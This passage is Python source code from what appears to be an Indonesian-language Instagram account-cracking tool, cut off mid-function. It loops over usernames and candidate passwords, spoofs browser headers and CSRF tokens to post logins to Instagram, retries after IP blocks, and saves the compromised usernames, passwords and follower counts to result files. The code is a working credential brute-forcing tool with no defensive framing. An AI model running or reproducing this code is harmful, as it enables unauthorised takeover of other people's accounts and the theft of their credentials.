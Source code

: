 					success.append(user)
					break
				elif 'href="https://www.instagram.com/challenge/action/"' in str(xc_team):
					nama,pengikut,mengikut,postingan=self.APIinfo(user)
					print("\r                                       ")
					adit=f'\rNama      : {nama}\nUsername  : {user}\nPassword  : {pw}\nPengikut  : {pengikut}\nMengikuti : {mengikut}\nPostingan : {postingan}\nUser-agent: {uazku()}'
					pepekXD = nel(adit, style='yellow')
					print('\n')
					cetak(nel(pepekXD,style='', title='\r[yellow]Account Check Method AJAX[white]'))
					open(f"result/checkpoint-{day}.txt","a").write(f'{user}|{pw}|{pengikut}|{mengikut}\n')
					checkpoint.append(user)
					break
				elif 'ip_block' in str(respon.text):
					sys.stdout.write(f'\r{P}[{M}#{P}] crack {M}spamIP {P}{loop}/{len(internal)}{P} OK-:{H}{len(success)} {N}CP-:{K}{len(checkpoint)} {P}');sys.stdout.flush()
					time.sleep(10)
					self.crackAJAX(user,pas)

				else:
					continue
			loop+=1
		except:
			self.crackAJAX(user,pas)
	
	def checkAPI(self,usr,pwd):
		try:
			ts = calendar.timegm(current_GMT)
			xyaaXD = random.randint(1000000000, 99999999999)
			ses = requests.Session()
			ts = calendar.timegm(current_GMT)
			sys.stdout.write(f'\r{P}[{H}#{P}] {H}cheking {N}{usr}{P}');sys.stdout.flush()
			response = ses.get(f"https://z-p42.www.instagram.com/accounts/login/?force_classic_login&hl=en").text
			token = re.search('name="csrfmiddlewaretoken" value="(\\w+)"/>', str(response)).group(1)
			head = {
                    'Host': 'z-p42.www.instagram.com',
                    'Connection': 'keep-alive',
                    'Content-Length': '296',
                    'Cache-Control': 'max-age=0',
                    'Upgrade-Insecure-Requests': '1',
                    'User-Agent': 'Mozilla/5.0 (Linux; Android 10; RMX2185 Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/83.0.4103.106 Mobile Safari/537.36',
                    'Origin': 'https://z-p42.www.instagram.com',
                    'Content-Type': 'application/x-www-form-urlencoded',
                    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
                    'dnt': '1',
                    'X-Requested-With': 'mark.via.gp',
                    'Sec-Fetch-Site': 'same-origin',
                    'Sec-Fetch-Mode': 'navigate',
                    'Sec-Fetch-User': '?1',
                    'Sec-Fetch-Dest': 'document',
                    'Referer': 'https://z-p42.www.instagram.com/accounts/login/?force_classic_login&hl=en',
                    'Accept-Encoding': 'gzip, deflate',
                    'Accept-Language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'
                    }
			param={
					'csrfmiddlewaretoken': token,
					'username': usr,
					'enc_password': f'#PWD_INSTAGRAM_BROWSER:0:{ts}:{pwd}'
					}
			respon=ses.post("https://z-p42.www.instagram.com/accounts/login/?force_classic_login&hl=en", headers = head, data = param, allow_redirects=True)